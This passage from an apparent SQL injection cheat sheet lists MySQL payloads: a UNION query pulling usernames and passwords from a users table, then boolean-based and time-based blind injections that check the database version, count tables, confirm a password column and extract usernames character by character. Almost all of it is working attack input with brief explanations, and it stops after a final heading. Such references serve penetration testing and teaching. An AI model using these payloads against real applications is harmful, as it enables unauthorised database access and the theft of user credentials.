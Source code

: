 ```
' UNION SELECT NULL, username, password FROM users -- -
```

### Boolean-Based SQLi

- **Checking MySQL Version:** Evaluates to true if the MySQL version starts with '5'.

```
' AND SUBSTRING(version(), 1, 1) = '5' -- -
```

- **Determining the Number of Tables:** Evaluates to true if there are more than 10 tables in the current database.

```
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()) > 10 -- -
```

- **Checking Existence of a Column:** Evaluates to true if the `password` column exists in the `users` table.

```
' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0 -- -
```

- **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `users` table is 'a'.

```
' AND (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1) = 'a' -- -
```

### Time-Based SQLi

- **Checking MySQL Version:** Causes a 5-second delay if the MySQL version starts with '5'.

```
' AND IF(SUBSTRING(version(), 1, 1)='5', SLEEP(5), 0) -- -
```

- **Determining the Number of Tables:** Causes a 5-second delay if there are more than 10 tables in the current database.

```
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()) > 10, SLEEP(5), 0) -- -
```

- **Checking Existence of a Column:** Causes a 5-second delay if the `password` column exists in the `users` table.

```
' AND IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0, SLEEP(5), 0) -- -
```

- **Extracting Data from a Column:** Causes a 5-second delay if the first character of the first username in the `users` table is 'a'.
